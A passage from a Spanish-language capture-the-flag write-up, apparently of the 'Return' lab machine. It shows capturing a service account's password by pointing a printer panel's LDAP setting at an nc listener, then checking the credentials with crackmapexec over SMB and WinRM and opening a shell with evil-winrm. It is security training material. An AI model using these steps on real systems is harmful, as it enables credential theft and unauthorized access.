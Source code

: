 Se observa que el único valor que está viajando en la petición es la **dirección IP**, por lo que se puede intentar cambiarla para que apunte a nuestro equipo y ver qué sucede. Sin embargo, la petición tiene que llegar a un **puerto**, por lo que se puede pensar que será al puerto que se veía reflejado en la configuración, es decir, el **389**. Ahora, con esto en mente, sería necesario ponerse a la escucha con **nc** en ese puerto y cambiar la IP a la de nuestro equipo atacante.

```bash
nc -lvp  389
listening on [any] 389 ...
```
{: .nolineno}


![cambioIP](/return/cambioIP.png)

Al revisar la conexión por **nc**, se puede ver lo siguiente:

```bash
nc -lvp  389
listening on [any] 389 ...
10.10.11.108: inverse host lookup failed: Unknown host
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.108] 53030
0*`%return\svc-printer
                      1edFg43012!!
```
{: .nolineno}

De esta respuesta, se recibe un mensaje con el **dominio** ,  el **usuario** y en la línea siguiente se puede ver algo que parece ser una **contraseña** del usuario.


Por lo que ahora se puede probar con cme para verificar si las credenciales son válidas dentro del equipo:

```bash
crackmapexec smb  10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
```
{: .nolineno}

Ahora se puede probar si se tiene acceso por medio de WinRM, por lo que se ejecuta el siguiente comando:

```bash
crackmapexec winrm  10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```
{: .nolineno}

Por lo que se puede realizar la conexión por medio de **Evil-WinRM**:

```bash
evil-winrm -i 10.10.11.108 -u svc-printer  -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.5
                                        
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```
{: .nolineno}
